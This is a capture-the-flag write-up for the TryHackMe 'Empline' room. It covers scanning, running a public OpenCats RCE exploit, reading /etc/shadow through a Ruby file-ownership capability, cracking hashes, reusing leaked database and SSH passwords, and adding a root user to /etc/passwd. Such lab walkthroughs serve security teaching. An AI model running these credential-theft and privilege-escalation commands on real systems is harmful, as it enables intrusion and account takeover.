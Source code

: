 # Empline

**Room Link:** [https://tryhackme.com/room/empline](https://tryhackme.com/room/empline)

### **Scans** <a href="#scans" id="scans"></a>

Initial scan

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Longer scan

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **TCP/80 - HTTP**

**Kali**

```
gobuster dir --url http://$VICTIM/ -w /usr/share/dirb/wordlists/big.txt -l
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
echo "$VICTIM job.empline.thm" >> /etc/hosts
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Initial Shell

OpenCats 0.9.4 has a RCE exploit.

Exploit: [https://www.exploit-db.com/raw/50585](https://www.exploit-db.com/raw/50585)

**Kali**

```
chmod +x exploit.sh 
./exploit.sh 
./exploit.sh http://job.empline.thm/
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
getcap -r / 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
ls -lah /etc/shadow
ruby -e 'require "fileutils"; FileUtils.chown("www-data", "www-data", "/etc/shadow")'
ls -lah /etc/shadow
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

Now that we can read both f these files we can transfer them to Kali. I let this run for a while but it wasn't cracking any hashes.

```
cat /etc/passwd
cat /etc/shadow
```

**Kali**

```
unshadow passwd shadow > passwords.txt
```

**Kali**

```
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```

I went back to the check the box and found the database credentials&#x20;

**Victim**

```
find / -name "config.php"
cat /var/www/opencats/config.php 
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
mysql -h $VICTIM -u james -png6pUFvsGNtw  
```

**Kali(mysql)**

```
show databases;
use opencats
show tables;  
select * from user;  
```



There were a few hashes from users so I put them in crackstation and one returned a result.

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **TCP/22 - SSH**

**Kali**

```
ssh george@$VICTIM
Password: pretonnevippasempre
```



## Privilege Escalation

Since I had access to change any file already I just added a new root user to passwd

**Victim**

```
ruby -e 'require "fileutils"; FileUtils.chown("george", "george", "/etc/passwd")'
echo 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> /etc/passwd
su new
Password: 123
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
